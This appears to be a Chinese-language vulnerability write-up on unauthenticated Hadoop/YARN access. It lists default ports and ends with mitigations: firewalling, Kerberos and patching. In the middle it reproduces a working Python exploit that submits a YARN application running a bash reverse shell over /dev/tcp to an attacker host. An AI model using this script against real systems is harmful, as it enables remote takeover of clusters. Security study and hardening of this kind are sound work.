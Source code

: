 ```yaml
---
title: "Hadoop未授权访问"
id: zhfly2962
---
```


# Hadoop未授权访问

## 一、漏洞简介

> Hadoop是一款由Apache基金会推出的分布式系统框架，它通过著名的 MapReduce 算法进行分布式处理。这个框架被Adobe，Last fm，EBay，Yahoo等知名公司使用着。它极大地精简化程序员进行分布式计算时所需的操作，用户大概通过如下步骤在hadoop中实现分布式处理：

*   用户创建一个处理键值的map函数
*   产生了一套中间键/值
*   reduce函数合并中间值并把他们关联到对应的键

## 二、影响范围

## 三、复现过程

#### 1\. 扫描探测

##### 1.1 常见端口

![image](../img/bd9206d43d21e83527fd04593e44ee67.png)

##### 1.2 敏感端口

| 模块 | 节点 | 默认端口 |
| --- | --- | --- |
| HDFS | NameNode | 50070 |
| HDFS | SecondNameNode | 50090 |
| HDFS | DataNode | 50075 |
| HDFS | Backup/Checkpoint node | 50105 |
| MapReduce | JobTracker | 50030 |
| MapReduce | TaskTracker | 50060 |

通过访问 NameNode WebUI 管理界面的 50070 端口，可以下载任意文件。而且，如果 DataNode 的默认端口 50075 开放，攻击者可以通过 HDSF 提供的 restful API 对 HDFS 存储的数据进行操作。

![image](../img/995012ff5d662d413dd6ffc8a6232205.png)

#### 2\. 攻击手法

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST API 也可以提交任务执行。

利用过程如下：

*   在本地监听等待反弹 shell 连接
*   调用 New Application API 创建 Application
*   调用 Submit Application API 提交

**P牛的攻击脚本**

```
##!/usr/bin/env python

import requests

target = ‘[http://127.0.0.1:8088/](http://127.0.0.1:8088/)’

lhost = ‘192.168.0.1’ ## put your local host ip here, and listen at port 9999 `url = target + ‘ws/v1/cluster/apps/new-application’

resp = requests.post(url)

app_id = resp.json()[‘application-id’]

url = target + ‘ws/v1/cluster/apps’

data = {

‘application-id’: app_id,

‘application-name’: ‘get-shell’,

‘am-container-spec’: {

‘commands’: {

‘command’: ‘/bin/bash -i >& /dev/tcp/%s/9999 0>&1’ % lhost,

},

},

‘application-type’: ‘YARN’,

}

requests.post(url, json=data)` 
```

![image](../img/5e061ae1f8353e17158d8c31f4352570.png)

#### 3\. 防范措施

1.  网络访问控制
    使用 安全组防火墙 或本地操作系统防火墙对访问源 IP 进行控制。如果您的 Hadoop 环境仅对内网服务器提供服务，建议不要将 Hadoop 服务所有端口发布到互联网。

2.  启用认证功能
    启用 Kerberos 认证功能。

3.  更新补丁
    不定期关注 Hadoop 官方发布的最新版本，并及时更新补丁。